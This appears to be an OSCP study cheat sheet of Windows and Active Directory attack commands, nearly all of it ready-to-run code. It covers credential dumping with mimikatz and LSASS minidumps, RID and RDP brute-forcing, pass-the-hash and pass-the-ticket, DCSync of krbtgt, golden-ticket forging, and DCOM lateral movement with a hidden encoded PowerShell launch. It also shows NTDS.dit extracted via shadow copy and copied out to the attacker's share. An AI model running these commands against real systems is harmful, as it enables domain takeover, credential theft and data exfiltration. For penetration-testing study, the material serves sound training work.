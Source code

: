 Port scan for Win:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,445 $TARGET_IP -vv
```
OSCP guidance for enumeration:
---
#oscp #windows-enum #pen-200
```powershell
whoami /groups
(Get-PSReadlineOption).HistorySavePath
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember "$GROUP"
systeminfo
ipconfig /all
route print
netstat -ano
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process # or tasklist /SVC
Get-Process | findstr /V /R "svchost winlogon vm3dservice RuntimeBroker vmtoolsd SearchHost lsass"
```

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
net user $USER
runas /user:$USER cmd
.\PsLoggedon.exe \\$OTHER_MACHINE # get users logged into $OTHER_MACHINE
```

Start new powershell with administrator privs:

```powershell
Start-Process PowerShell -verb runas
```

Reboot Windows:

```powershell
shutdown /r /t 0
```

Type powershell history:
```powershell
type $((Get-PSReadlineOption).HistorySavePath)
```

Find which DotNet version is installed:
```powershell
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version
```

use winpeas.exe, search for DPAPI: `_Checking for DPAPI Credential Files`_

```powershell
.\Seatbelt.exe -group=all
```

```powershell
$password = ConvertTo-SecureString $PASS -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($USER, $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

Run as administrator:
```powershell
Start-Process PowerShell -Verb RunAs
```

Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

# Get installed patches:

```powershell
wmic qfe
```

# Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

# Dump LSASS:
check for #SeDebugPrivilege

```powershell
whoami /priv
#run mimikatz
```

```bash
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M minidump
pypykatz lsa minidump lsass.DMP
```
or using netexec (faster, more modern)
```bash
nxc smb $TARGET_IP -u $USER -p $PASSWORD -M nanodump
```

run in a non-interactive shell
```powershell
$results = .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
echo $results
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
```

check for open shares

```bash
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Mount windows share:
```bash
sudo mount -o username=$USER,password=$PASSWORD -t cifs \\\\$TARGET_IP\$SHARE /mnt
```

wmiexec (on port 445) with hash (administrator account only):
#pass-the-hash #pth #wmiexec
```bash
crackmapexec smb -u administrator -H $HASH -X "powershell -e ..."
impacket-wmiexec -hashes :$HASH Administrator@$TARGET_IP
```
smbclient:
#pass-the-hash 
```bash
smbclient \\\\$TARGET_IP\\$SHARE -U Administrator --pw-nt-hash $HASH
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```bash
impacket-wmiexec -hashes :$NTLM$ Administrator@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP with clipboard enabled:

```bash
xfreerdp +clipboard /v:$TARGET_IP /u:$USER /cert:ignore
```

Connect with shared folder, and NLA :
```bash
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /cert:ignore /drive:shared,/home/kali/shared
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /cert:ignore /drive:shared,/home/kali/shared /d:$AD_DOMAIN
```

Brute force RDP:

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p $PASSWORD rdp://$TARGET_IP -I
```

Elevate powershell to administrator:
#elevate-powershell #powershell-admin

```powershell
Start-Process powershell -Verb runas -ArgumentList "-NoExit -c cd '$pwd'"
```

mimikatz dump as local admin:
#dump #mimikatz
```powershell
.\mimikatz
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
```
#pth #overpass-the-hash 
```powershell
sekurlsa::pth /user:$USER /domain:$TARGET_DOMAIN /ntlm:$HASH /run:powershell
#on the new powershell
net use \\$TARGET_IP
.\PsExec.exe \\$TARGET_IP cmd
```
#pass-the-ticket

```poweshell
privilege::debug
sekurlsa::tickets /export
#ls *.kirbi
#select ticket matching target host
kerberos::ptt $TICKET
.\PsExec.exe \\$TARGET_IP cmd
```
mimikatz as domain admin:
#mimikatz #dcsync #dc-sync #krbtgt
```powershell
privilege::debug
lsadump::dcsync /user:$AD_DOMAIN\krbtgt
```

DCOM:
#dcom #lateral-ad-movement 
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$TARGET_IP"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JAB....","7")
```

Golden ticket:
#priv-esc-ad #golden-ticket #krbtgt #kerberos 
```powershell
#start mimikatz
privilege::debug
kerberos::purge
lsadump::lsa /patch
kerberos::golden /user:$USER /domain:$TARGET_AD /sid:$TARGET_SID /krbtgt:$HASH /ptt
misc::cmd
PsExec.exe \\$DOMAIN_CONTROLLER cmd.exe
```

Volume Shadow Copy:
#vshadow #ntds #system-bak
```powershell
reg.exe save hklm\system c:\system.bak
vshadow.exe -p -nw C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit.bak
cp .\ntds.dit.bak \\tsclient\shared
```